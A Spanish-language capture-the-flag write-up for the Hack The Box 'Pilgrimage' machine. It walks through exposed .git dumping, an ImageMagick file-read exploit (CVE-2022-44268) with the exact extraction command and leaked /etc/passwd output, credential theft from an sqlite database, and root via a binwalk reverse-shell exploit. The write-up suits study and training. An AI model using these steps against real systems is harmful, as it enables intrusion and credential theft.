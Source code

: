 --------
- Tags: #binwalk #sqlite3 #image-magic #git_dumper #Arbitrary-File-Read #CVE-2022-4510
--------------
## Técnicas utilizadas
- .Git abuse[git_dumper.py]
- Arbitrary File Read[imagemagick]
- Database enumeration
- BinWalk abuse[CVE-2022-4510]
## Procedimiento

![[Pasted image 20230624121725.png]]

#### Reconocimiento

El escaneo con **nmap** nos presenta los siguientes puertos abiertos:
``` ruby
# nmap -sCV -p80,22 10.129.33.41 -oN Ports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-24 12:19 MST
Nmap scan report for 10.129.33.41
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20be60d295f628c1b7e9e81706f168f3 (RSA)
|   256 0eb6a6a8c99b4173746e70180d5fe0af (ECDSA)
|_  256 d14e293c708669b4d72cc80b486e9804 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.83 seconds
```

El reconocimiento con **WhatWeb** nos muestra las tecnologías que corren por detras del sitio web:
``` ruby
# whatweb pilgrimage.htb
http://pilgrimage.htb [200 OK] Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0], IP[10.129.33.41], JQuery, Script, Title[Pilgrimage - Shrink Your Images], nginx[1.18.0]
```

#### .Git abuse[git_dumper.py]
Enumernado la pagina, pude encontrar un **XSS** que no llevaba realmente a ningun sitio. Intente también tratando de subir una **webshell** pero tampoco funciono. Haciendo un escaneo más profundo con **wfuzz** di con el directorio **.git**

```
# curl -s -X GET "http://pilgrimage.htb/.git/HEAD"
ref: refs/heads/master
```

Como sabemos, cuando el directorio **.git** esta expuesto, podemos aprovecharnos para clonar el repositorio completo con herramientas como [git_dumper.py](https://github.com/arthaud/git-dumper/) de la siguiente manera:

```
# git_dumper.py http://<url>/ <dir>
```

--------
#### Arbitrary File Read[imagemagick]
Leyendo los archivos del repositorio no encontramos nada interesante, sin embargo, encontramos el binario de **ImageMagick** que esta utilizando para convertir las imagenes.
Si listamos la version de **ImageMagick** podemos ver que es algo antigua:
```
./magick --version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

Si buscamos por vulnerabilidades existentes con **searchsploit** para la versión en uso, encontramos que hay una para leer archivos de la maquina:
![[searchsploit_magick.png]]

La prueba de concepto nos pide que clonemos el [repositorio](https://github.com/voidz0r/CVE-2022-44268). Una vez clonado, tenemos que ejeecutar el sigueinte comando:
```
# cargo run "/etc/passwd"
```

Esto nos creara un **image.png**, este mismo es el que usaremos para leer el */etc/passwd* del servidor. Tenemos que subir la imagen y la pagina nos ofecera un **url**, usamos **wget** para descargar la imagen en el directorio actual de trabajo. Una vez con la imagen en nuestro espacio de trabajo, ejecutaremos el siguiente comando:
```
# identify -verbose 6497a141931ed.png | awk '/Raw profile type:/,/signature:/' | sed 's/signature.*//' | sed 's/Raw profile type.*//' | sed '/^\s*$/d' | sed '1d' | xxd -ps -r
```

Esto nos listara el */etc/passwd*:
```java
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

---------
#### Database enumeration
En el archivo **login.php** del repositorio hace alución a una ruta donde se encuentra una base de datos. Hacemos el proceso anterior pero ahora con el este archivo e intentamos enumerarla con **sqlite3**:
```
# sqlite3 db.db
```

Dentro de la base de datos, vemos que existe una **table** con nombre **users**. Si la listamos, podemos ver un usuario y una contraseña:
![[leak_users.png]]

Estas credenciales nos sirven para conectarnos a la maquina por **SSH**

---------
#### BinWalk abuse[CVE-2022-4510]
Una vez estamos como **emily** podemos hechar un vistazo a los procesos del sistema con *ps -faux* y nos mostrara el siguiente proceso que esta ejecutando **root**:
![[root_process.png]]
El script que esta ejecutando **root** en cuestion es el siguiente:

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
	filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
	binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
		if [[ "$binout" == *"$banned"* ]]; then
			/usr/bin/rm "$filename"
			break
		fi
	done
done
```

Basicamente, crea una **lista negra**, ejecuta **inotifywait** en bucle con los parametros *-m -e*, estos dos en conjunto sirven para  constantemente ver si se crean archivos en la ruta definida. Posteriormente se declara la función **filename** que toma como valor el nombre de los archivos a través de una expresion regular y antepone la palabra **CREATE**. Un ejemplo seria:
```
CREATE hola.sh
```

La parte interesante viene a continuación, ya que ejecuta **binwalk -e**, esto va a permitir aprovecharnos de una vulnerabilidad de la version actual de **binwalk**
Si buscamos por exploit para la versión actualmente en uso de **binwalk** encontramos un **RCE**:
![[binwalk_rce.png]]

El funcionamiento del script es facil, simplemente colocamos un archivo a modificar, colocamos nuestra **ip** y un puerto por donde estaremos en escucha y nos deja un archivo como este:
![[png_rce.png]]

Nos vamos poner en escucha por el puerto elegido. El archivo generado lo vamos a trasladar a la maquina victima y lo vamos a colocar en la carpeta */var/www/pilgrimage.htb/shrunk/*. Esto automaticamente nos mandara una **reverse shell** a nuestro equipo y podremos leer la flag de root:
![[root.png]]






